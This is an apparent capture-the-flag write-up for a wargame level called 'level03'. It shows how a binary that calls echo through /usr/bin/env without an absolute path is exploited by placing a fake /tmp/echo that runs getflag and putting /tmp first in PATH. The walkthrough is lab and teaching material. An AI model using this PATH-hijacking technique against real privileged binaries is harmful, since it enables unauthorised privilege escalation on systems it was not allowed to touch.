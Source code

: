 <h1 align="center"> level03 </h1>

```
ls -la
```

We have an executable file. We can take a first look inside with:
```
strings level03
```

One line is important:
```
/usr/bin/env echo Exploit me
```

It use wcho to print something but it's not an absolute link to the command. We can add our echo file location to the ```$PATH``` variable.
It's evaluated from left to right, so we can put it first.

Creation of our echo file:
```shell
echo '/bin/getflag' > /tmp/echo
```
And don't forget to give execution permissions:
```
chmod +x /tmp/echo
```


Change the ```$PATH``` variable to add our temp folder first:
```
PATH=/tmp:$PATH
```

Then:
```
./level03
```

It give us the getflag result, who allows us to pass to the next level, it work !
